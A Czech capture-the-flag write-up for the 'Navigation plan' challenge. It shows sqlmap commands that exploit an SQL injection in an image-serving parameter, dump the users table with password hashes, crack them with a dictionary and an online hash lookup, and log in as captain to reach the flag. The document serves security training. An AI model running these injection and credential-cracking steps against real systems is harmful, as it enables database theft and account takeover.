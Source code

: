 # Navigation plan

## Zadání 

Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at [http://navigation-plan.cns-jv.tcc](http://navigation-plan.cns-jv.tcc).

Hint: Details should contain the desired information.

## Řešení

- z webu: *Everyone sees the plan according to their rank. Only captain or chief officer can see details.*

### Slepá ulička 1

- při volání http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=0
```
Warning: Trying to access array offset on value of type null in /var/www/html/image.php on line 12

Deprecated: base64_decode(): Passing null to parameter #1 ($string) of type string is deprecated in /var/www/html/image.php on line 12
```

### Slepá ulička 2

- SQLinjection na tom přihlašovacím formuláři 
- není injektovatelný, lámání pomocí `sqlmap`
	- formulář: `$ sqlmap -u "http://navigation-plan.cns-jv.tcc/system/login.php" --data "username=admin&password=aaa&login=Enter" -p "username,password" --method POST`

### Správná cesta

- když si zobrazím jeden z obrázků v novém okně, dostanu URL `http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1` a spoustu balastu
	- ručním hraním s parametrem "id" mě nikam neposune
	- ručním hraním s parametrem "data" dostanu chybu
		```
		Fatal error: Uncaught mysqli_sql_exception: Unknown column 'x' in 'field list' in /var/www/html/image.php:9 Stack trace: #0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT x FROM t...') #1 {main} thrown in /var/www/html/image.php on line 9
		```
- zavolám sqlmap: `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=x&t=targets&id=1" --dump-all` a hrne to mraky dat
- zkusím dumpnout jen schéma [Sqlmap dumping all tables without data](https://security.stackexchange.com/questions/143477/sqlmap-dumping-all-tables-without-data): `sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=x&t=targets&id=1" --schema --exclude-sysdbs`
```
Database: navigation
Table: users
[5 columns]
+----------+----------------------+
| Column   | Type                 |
+----------+----------------------+
| rank     | tinyint(1)           |
| active   | tinyint(1)           |
| id       | smallint(5) unsigned |
| password | varchar(256)         |
| username | varchar(64)          |
+----------+----------------------+

```
- dump jen té konkrétní tabulky: `$ sqlmap -u "http://navigation-plan.cns-jv.tcc/image.png?type=x&t=targets&id=1" --dump -D navigation -T users`
```
[10:26:59] [INFO] retrieved: '1'
[10:26:59] [INFO] retrieved: '0'
[10:26:59] [INFO] retrieved: '1'
[10:26:59] [INFO] retrieved: '15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225'
[10:26:59] [INFO] retrieved: 'engeneer'
[10:26:59] [INFO] retrieved: '0'
[10:26:59] [INFO] retrieved: '1'
[10:27:00] [INFO] retrieved: '2'
[10:27:00] [INFO] retrieved: '7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537'
[10:27:00] [INFO] retrieved: 'captain'
[10:27:00] [INFO] retrieved: '1'
[10:27:00] [INFO] retrieved: '1'
[10:27:00] [INFO] retrieved: '3'
[10:27:00] [INFO] retrieved: '6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb'
[10:27:00] [INFO] retrieved: 'officer'
```
- nechám ho, aby mně ty hesla zlámal (musím mu předhodit slovník)
```
[10:27:00] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:28:57] [INFO] writing hashes to a temporary file '/tmp/sqlmapm3vyognz77481/sqlmaphashes-utx8iskp.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[10:29:07] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> /usr/share/wordlists/rockyou.txt
[10:29:51] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[10:29:59] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[10:29:59] [INFO] starting 2 processes 
[10:29:59] [INFO] cracked password '123456789' for user 'engeneer'                                                
Database: navigation                                                                                              
Table: users
[3 entries]
+----+--------+--------+------------------------------------------------------------------------------+----------+
| id | rank   | active | password                                                                     | username |
+----+--------+--------+------------------------------------------------------------------------------+----------+
| 1  | 1      | 0      | 15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225 (123456789) | engeneer |
| 2  | 0      | 1      | 7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537             | captain  |
| 3  | 1      | 1      | 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb             | officer  |
+----+--------+--------+------------------------------------------------------------------------------+----------+

[10:30:37] [INFO] table 'navigation.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/navigation-plan.cns-jv.tcc/dump/navigation/users.csv'                                                                            
[10:30:37] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/navigation-plan.cns-jv.tcc'
```
- podařilo se mu zlámat heslo jen pro inženýra, pro kapitána ne. ALE mám hash.
- dotaz na Hashes.com: `7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537:$captainamerica$`, tedy login/heslo: `captain / $captainamerica$`
- login do webu
- podle Hintu je něco důležitého v "Details" > Target #4 > `FLAG{fmIT-QkuR-FFUv-Zx44}`